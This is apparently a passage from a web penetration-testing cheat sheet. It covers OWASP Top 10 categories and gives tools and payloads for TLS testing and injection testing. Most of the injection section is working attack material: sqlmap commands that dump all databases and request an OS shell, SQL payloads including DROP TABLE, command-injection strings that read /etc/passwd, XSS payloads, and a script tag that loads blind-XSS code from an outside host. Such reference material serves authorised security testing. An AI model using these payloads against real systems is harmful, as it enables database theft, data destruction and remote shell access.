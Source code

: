 #### **A02:2021 - Cryptographic Failures**
```bash
# SSL/TLS testing with SSLyze
sslyze --regular target.com:443

# SSL Labs API testing
curl -s "https://api.ssllabs.com/api/v3/analyze?host=target.com"

# TestSSL.sh comprehensive SSL testing
testssl.sh https://target.com

# Certificate analysis
openssl s_client -connect target.com:443 -servername target.com
```

#### **A03:2021 - Injection Attacks**

**SQL Injection Testing**
```bash
# SQLMap comprehensive testing
sqlmap -u "http://target.com/index.php?id=1" --batch --dbs
sqlmap -u "http://target.com/index.php?id=1" --batch --dump-all
sqlmap -u "http://target.com/index.php?id=1" --batch --os-shell

# Manual SQL injection testing
' OR '1'='1
' UNION SELECT null,version(),database()--
'; DROP TABLE users;--

# NoSQL injection testing
{"$ne": null}
{"$regex": ".*"}
```

**Command Injection Testing**
```bash
# Basic command injection payloads
; ls -la
| whoami
& cat /etc/passwd
`id`

# Time-based blind command injection
; sleep 10
| ping -c 10 127.0.0.1

# Commix automated command injection testing
commix -u "http://target.com/index.php?cmd=test"
```

**Cross-Site Scripting (XSS)**
```bash
# XSS payloads for testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
javascript:alert('XSS')

# XSSHunter for blind XSS
<script src=https://yourid.xss.ht></script>

# DOM-based XSS testing
# Test all input reflection points
```
